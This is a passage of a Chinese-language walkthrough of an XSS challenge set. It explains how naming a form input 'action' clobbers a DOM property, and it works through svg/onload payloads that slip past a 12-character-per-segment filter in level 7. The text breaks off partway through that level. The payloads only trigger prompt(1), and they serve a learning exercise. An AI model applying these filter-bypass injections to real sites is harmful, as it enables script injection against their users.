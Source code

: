 可以看到检测的是 `test(document.forms[0].action)`

所以一旦我们将input的name改成action，name的action就覆盖了document的action。

payload：

```
javascript:prompt(1)#{"action":"111"}
```

## 7

```javascript
function escape(input) {
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}    
```

* 代码审计：

    每一段用`#`分开，不能超过12个字符。而且每一段中间都用\<p>标签隔开了。

> 由于有12个字符的限制，所以用svg标签减少字数，最后的效果大概是`<svg xxxx onload=prompt(1) >`

* 闭合前面的title ：

```
"><svg 
```

* 闭合后面到下一行的title：

```
"><svg a= 
"><svg a='
"><svg a='/* // 理论上来说可以，但是这道题不行
"><svg a=" //不行
"><svg /*  //不行  然后在下一段加上 */
"><svg "   //不行
```
```bash
第1种只有一个引号（title自带的双引号），a的信息没有完全给出，不会自动闭合。
第2种方法由于后面是title自带的双引号，所以我们用单引号将后面的内容闭合（需要下一段带一个单引号），绕开双引号，a的信息没有完全给出，浏览器不会自动闭合。
第3种方法，确实可以链接下一段payload，但是下一段使用onload的时候，需要闭合上一段的单引号，为了链接下一段的prompt(1)，必须使用`/*`来将中间的内容注释掉，所以下一段的payload就是`'*/onload='/*`(char 13)，超出了字符限制。
第4种自己的`"`会和自带的引号闭合，导致a的信息完全给出之后，浏览器自动闭合。
第5种浏览器会将`/*`作为a的值，导致a存在信息，使得浏览器自动闭合。
第6种自己的双引号和自带的那个双引号直接闭合。
```
* 添加onload部分

```
"><svg a='#'onload='/*
首先需要闭合上一段的单引号，然后用单引号为下一段的链接做准备，同时为了能正常使用prompt(1)，所以中间部分的字符需要被注释掉。
```
